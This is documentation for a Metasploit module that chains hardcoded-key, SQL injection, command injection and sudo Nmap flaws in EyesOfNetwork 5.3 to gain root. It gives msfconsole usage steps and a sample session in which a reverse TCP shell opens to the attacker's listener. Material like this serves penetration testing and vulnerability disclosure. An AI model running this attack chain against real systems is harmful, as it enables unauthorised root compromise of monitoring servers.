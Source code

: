 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.3 and prior in order to execute arbitrary commands as root.

The module first exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, it writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This approach achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via two methods, i.e. by generating an API access token based on a hardcoded key, and via SQLI. This module has been successfully tested on EyesOfNetwork 5.3 with API version 2.4.2.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

1.  `Proxies`. This option is not set by default.
2.  `RHOSTS`. To use: `set RHOSTS [IP]`
3.  `RPORT`. The default setting is `443`. To use: `set RPORT [PORT]`
4.  `SERVER_ADDR`. This option is not set by default.
5.  `SSL`. The default setting is `true`, because HTTPS is required for the module to work.
6.  `TARGETURI`. This option is the base path. `/` by default.
7.  `VHOST`. This option is not set by default.

## Payload Options
1. `LHOST`. To use: `set LHOST [IP]`
2. `LPORT`. The default setting is `4444`. To use: `set LPORT [PORT]`


## Scenarios

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path to EyesOfNetwork
   VHOST                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using generated API key: a496fb1025187066dc1e4e56197bd2db1a23c565f42b98df8ff55698442b6476
[+] Authenticated as user kY7Qn1gr8L
[*] Sending payload (428 bytes) ...
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:45897) at 2020-02-19 15:30:31 +0100

id
uid=0(root) gid=0(root) groups=0(root)
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
